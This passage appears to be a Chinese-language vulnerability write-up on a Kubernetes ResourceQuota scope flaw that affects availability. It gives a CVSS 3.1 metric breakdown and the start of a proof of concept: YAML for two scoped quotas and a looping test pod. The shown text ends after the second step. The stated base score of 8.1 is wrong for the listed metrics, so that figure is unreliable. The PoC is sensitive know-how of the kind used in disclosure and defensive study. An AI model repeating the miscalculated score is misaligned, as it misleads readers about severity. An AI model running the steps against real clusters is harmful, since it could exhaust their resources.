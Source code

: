    根据 CVSS 3.1 评分标准：

   - **攻击向量（AV）：网络（N）**
   - **攻击复杂度（AC）：低（L）**
   - **特权要求（PR）：低（L）**（需要能够创建和更新对象的权限）
   - **用户交互（UI）：无（N）**
   - **作用域（S）：已改变（C）**（影响其他用户和系统资源）
   - **机密性影响（C）：无（N）**
   - **完整性影响（I）：无（N）**
   - **可用性影响（A）：高（H）**

   通过计算，CVSS 基本评分为 **8.1（高）**。

**Proof of Concept：**

按照 Issue 中的描述，攻击者可以执行以下步骤：

1. **创建两个具有不同 `scope` 的 ResourceQuota：**

   ```yaml
   apiVersion: v1
   kind: ResourceQuota
   metadata:
     name: terminating
   spec:
     hard:
       count/pods: "1"
     scopes:
     - Terminating
   ---
   apiVersion: v1
   kind: ResourceQuota
   metadata:
     name: not-terminating
   spec:
     hard:
       count/pods: "1"
     scopes:
     - NotTerminating
   ```

2. **创建一个属于 `NotTerminating` scope 的 Pod：**

   ```yaml
   apiVersion: v1
   kind: Pod
   metadata:
     name: test-pod
   spec:
     containers:
     - name: test
       image: ubuntu
       command: ["/bin/sh"]
       args: ["-c", "while true; do echo hello; sleep 10;done"]
   ```
